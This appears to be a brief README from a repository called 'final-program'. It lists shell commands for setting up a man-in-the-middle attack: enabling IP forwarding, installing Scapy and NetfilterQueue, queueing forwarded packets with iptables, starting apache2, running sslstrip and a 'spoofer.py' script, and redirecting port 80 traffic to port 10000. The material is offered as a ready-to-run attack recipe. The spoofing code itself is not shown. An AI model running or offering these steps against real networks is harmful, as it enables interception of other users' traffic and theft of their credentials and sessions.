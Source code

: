 # final-program
All final program for play


echo 1 > /proc/sys/net/ipv4/ip_forward


How to install Scapy :  https://www.youtube.com/watch?v=3tkVKflR4rY


How to install netfilterqueue:
    apt-get update
    apt-get install build-essential python-dev libnetfilter-queue-dev
    pip install NetfilterQueue


   iptables -I FORWARD -j NFQUEUE --queue-num 0 
   iptables --flush


service apache2 start


run sslstrip
run python spoofer.py
run iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
